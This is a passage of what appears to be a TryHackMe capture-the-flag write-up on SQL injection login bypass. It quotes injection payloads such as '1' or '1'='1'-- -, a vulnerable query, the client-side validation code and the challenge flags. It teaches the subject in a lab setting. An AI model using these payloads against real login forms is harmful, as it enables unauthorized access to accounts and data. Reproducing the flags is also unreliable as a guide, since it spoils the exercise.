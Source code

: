 Since there is no input sanitization, it is possible to bypass the login by using any True condition such as the one below as the ProfileID
```
# bypass login
1 or 1=1-- -


THM{dccea429d73d4a6b4f117ac64724f460}
```


### SQL Injection - input box string

This challenge uses the same query as in the previous challenge. However, the parameter expects a string instead of an integer, as can be seen here:

```
profileID='10'

# bypass login
1' or '1'='1'-- -


THM{356e9de6016b9ac34e02df99a5f755ba}
```

### SQL injection - url and POST 

```sql
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='10' AND password='ce5ca67...'
```

But in this case, the malicious user input cannot be injected directly into the application via the login form because some client-side controls have been implemented:
```js
functionvalidateform() {
    var profileID = document.inputForm.profileID.value;
    var password = document.inputForm.password.value;

    if (/^[a-zA-Z0-9]*$/.test(profileID) == false || /^[a-zA-Z0-9]*$/.test(password) == false) {
alert("The input fields cannot contain special characters");
        return false;
    }
    if (profileID == null || password == null) {
alert("The input fields cannot be empty.");
        return false;
    }
}
```

The JavaScript code above requires that both the profileID and the password only contains characters between a-z, A-Z, and 0-9. Client-side controls are only there to improve the user experience and is in no way a security feature as the user has full control over the client and the data it submits. For example, a proxy tool such as Burp Suite can be used to bypass the client side JavaScript validation ([https://portswigger.net/support/using-burp-to-bypass-client-side-javascript-validation](https://portswigger.net/support/using-burp-to-bypass-client-side-javascript-validation)).
